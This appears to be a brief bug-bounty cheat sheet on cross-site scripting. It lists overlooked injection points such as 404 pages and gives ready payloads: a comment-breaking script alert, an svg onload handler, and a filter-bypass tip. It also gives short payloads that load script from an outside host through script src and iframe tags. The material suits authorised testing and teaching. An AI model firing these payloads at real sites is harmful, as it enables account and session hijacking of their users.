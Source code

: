 <h1>Overlooked places where you might find XSS:</h1><br>

<b>1. 404 Errors where they show the name of the page not found:</b>

Example: https://www.openbugbounty.org/reports/1211008/

<b>2. Always try --><script>alert('0x0elliot')</script><!-- As your first payload. Then modify accordingly.</b>

<b>3. If they have banned `<script>` then try <svg onload=alert('0x0elliot')> as your payload.</b><br>

<h1>Bypassing XSS Filters:</h1><br>

<b>1. Remember that you can always use eval(base64_decode()) to anytime you can to Byass any Filters.</b>
<br>
Top 3 Shortest XSS Payloads!
<br>
1. <script/src=//⑮.rs
<br>
2. <x/oncut=alert(1)>a
<br>
3. <iframe src=//⑮.rs>
<br>
Twitter: JacksonHHax
